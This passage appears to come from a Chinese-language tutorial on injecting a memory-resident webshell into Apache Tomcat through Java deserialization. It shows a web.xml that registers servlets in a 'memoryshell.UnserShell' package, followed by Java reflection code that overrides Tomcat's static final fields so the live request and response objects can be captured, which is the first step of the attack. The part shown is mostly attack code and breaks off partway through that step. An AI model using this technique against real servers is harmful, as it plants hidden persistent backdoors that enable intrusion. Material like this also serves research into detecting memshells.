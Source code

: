 **web.xml**

```plain
<servlet>
        <servlet-name>getRequest</servlet-name>
        <servlet-class>memoryshell.UnserShell.getRequest</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>getRequest</servlet-name>
        <url-pattern>/demo</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>cc</servlet-name>
        <servlet-class>memoryshell.UnserShell.CCServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>cc</servlet-name>
        <url-pattern>/cc</url-pattern>
    </servlet-mapping>
```

## 构造反序列化

### **第一步**

将 request 和 response 存入到 lastServicedRequest 和 lastServicedResponse 中，跟上边一样所以直接贴过来了

```plain
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
```
